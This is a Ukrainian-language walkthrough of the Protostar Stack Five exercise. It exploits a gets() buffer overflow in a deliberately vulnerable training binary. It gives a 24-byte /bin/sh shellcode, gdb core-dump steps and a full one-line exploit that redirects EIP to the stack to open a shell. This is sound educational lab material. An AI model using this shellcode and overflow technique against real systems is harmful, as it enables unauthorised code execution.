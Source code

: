 ## [Stack Five](http://exploit.education/protostar/stack-five/)

Stack5 — це стандартне переповнення буфера, цього разу включаючи шелл-код.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі.
Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код.
Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:  
```
24 bytes
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```  

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, 
щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання (програма ```gdb``` трохи змінює стек, тому дійсна адреса може трохи відрізнятися від отриманої):  
```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
``` 

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Давайте завантажимо згенерований дамп ядра і знайдемо буфер:  
```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```

![Core Dump](img/core_dump.png)  

Як видно на рисунку, програма вже намагалася виконати адресу ```0x41414141``` ('AAAA'), тому зміщення правильні. 
Буфер користувача починається з ```0xbffffc60```. Отже, маємо:  
```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\x60'[::-1])"; cat) | ./stack5```

![Shell Test](img/shell_test.png)  